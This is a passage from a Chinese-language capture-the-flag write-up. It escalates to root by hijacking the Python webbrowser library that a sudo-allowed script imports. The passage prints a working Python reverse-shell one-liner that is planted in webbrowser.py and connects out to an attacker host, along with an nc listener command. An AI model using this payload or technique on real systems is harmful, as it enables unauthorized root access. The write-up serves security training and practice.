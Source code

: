 发现/usr/bin/python3 /home/ctf/web.py 这样是可以 sudo 运行不需要密码的

看下 web.py 的内容

![](https://s2.loli.net/2024/03/07/tmWVefdR5ibku6c.png)

导入了一个叫 webbrowser 的库

找下它的位置

![](https://s2.loli.net/2024/03/07/4O7FQeEfIJqNi5T.png)

[Linux 权限提升:Python 库劫持 - FreeBuf 网络安全行业门户](https://www.freebuf.com/vuls/279298.html)

根据文章提到的操作，在 webbrowser.py 里放入反弹 shell

vim /usr/lib/python3.10/webbrowser.py

**反弹shell：import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("攻击机ip",监听端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);**

![](https://s2.loli.net/2024/03/07/iqYIE6DgpjoKuTh.png)

保存后退出，同时再开个终端连 vps，连上后 nc -lvnp 端口 开启监听

然后在靶机处执行命令：sudo /usr/bin/python3 /home/ctf/web.py

![](https://s2.loli.net/2024/03/07/nrqDMLHCWu5oh6c.png)

成功连接，并且是 root 权限

接着 cd /home/ctf   后 cat flag 即可

![](https://s2.loli.net/2024/03/07/rlt7EzReuFTgvV4.png)
